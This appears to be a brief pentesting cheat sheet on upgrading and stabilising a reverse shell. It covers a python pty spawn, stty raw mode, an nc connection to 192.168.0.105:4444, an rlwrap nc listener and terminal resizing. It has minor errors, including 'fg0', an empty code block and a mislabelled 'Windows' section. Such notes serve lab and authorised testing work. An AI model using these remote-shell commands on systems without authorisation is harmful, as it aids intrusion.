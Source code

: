 # Linux

- Step one
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

- Step two
give us access to term commands 
```

```

- Step three
turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). 
It then foregrounds the shell, thus completing the process.
```
stty raw -echo; fg0
```

```
1) nc -nv 192.168.0.105 4444
2) python -c 'import pty;pty.spawn("/bin/bash")'
3) export TERM=xterm
4) ctr + z
5) stty raw -echo; fg
```

# Windows
- Step one
```
sudo apt install rlwrap
```

- Step two
```
rlwrap nc -lvnp 4444
```

# Change terminal tty size
- Step one
This will give you a large stream of output.
```
stty -a
```
- step two
This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information 
being accurate to correctly open.
```
stty rows <number>
stty cols <number>
```
